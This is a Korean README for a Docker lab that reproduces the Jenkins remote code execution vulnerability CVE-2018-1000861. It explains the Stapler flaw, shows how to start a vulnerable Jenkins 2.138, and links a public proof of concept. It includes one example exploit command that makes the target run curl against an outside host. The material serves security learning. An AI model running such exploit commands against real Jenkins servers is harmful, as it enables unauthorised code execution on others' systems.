




# Jenkins 원격 명령실행 취약점（CVE-2018-1000861）

장대한(@jth0809)

Jenkins는 HTTP 요청 처리를 위해 Stapler 웹 프레임워크를 사용합니다. CVE-2018-1000861은 jenkins의 취약점으로 Stapler/core/src/main/java/org/kohsuke/stapler/MetaClass.java 파일의 부적절한 URL 유효성 검사로 인해 URL을 통하여 시스템에서 일부 JAVA 메소드를 호출해 의도하지 않은 결과를 도출할 수 있는 취약점입니다.

다음은 이 취약점의 잠재적인 공격 방식입니다.

```
인증되지 않은 사용자는 내장된 Winstone-Jetty 서버로 Jenkins를 실행할 때 모든 세션을 무효화할 수 있습니다.

전체/읽기 권한이 있는 사용자는 메모리에 새 사용자 개체를 만들 수 있습니다.

전체/읽기 액세스 권한이 있는 사용자는 주기적으로 실행되는 AsyncPeriodicWork 구현 실행을 수동으로 시작할 수 있습니다.
```

본 취약점은 미국 국립 표준 기술 연구소의 NVD CVSS 3.x (취약점 점수)에서 9.8 critical 점수를 받았습니다.

## 실행방법

Shell에서 다운로드 받은 docker-compose.yml의 폴더로 이동하고 다음 명령어를 입력합니다.

```
docker compose up -d
```

도커에 의해 취약점이 존재하는 환경의 버전으로 자동 Pulling 되고 Created, Started 순서로 자동진행 됩니다.


`http://localhost:8080`으로 접속하면 jenkins가 정상적으로 실행됩니다.


## 익스플로잇

[POC](https://github.com/orangetw/awesome-jenkins-rce-2019) 코드로 익스플로잇 할 수 있습니다.
doker-compose.yml의 jenkins 버전이 2.138 이기 때문에 실행시 2.137초과 라는 출력이 나오게 됩니다.


이외 3가지의 추가 flag 상태가 있습니다


익스플로잇 하기 위한 다음과 같은 예제가 있습니다.

```
$ python exp.py http://jenkins/ 'curl orange.tw'
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```

또한 CVE-2018-1000861 이외의 취약점도 익스플로잇 해볼 수 있습니다.
CVE-2019-1003005
CVE-2019-1003029

## 참고자료

https://www.jenkins.io/security/advisory/2018-12-05/#SECURITY-595
https://nvd.nist.gov/vuln/detail/CVE-2018-1000861
https://github.com/orangetw/awesome-jenkins-rce-2019
https://github.com/vulhub/vulhub/blob/master/jenkins/CVE-2018-1000861/README.md
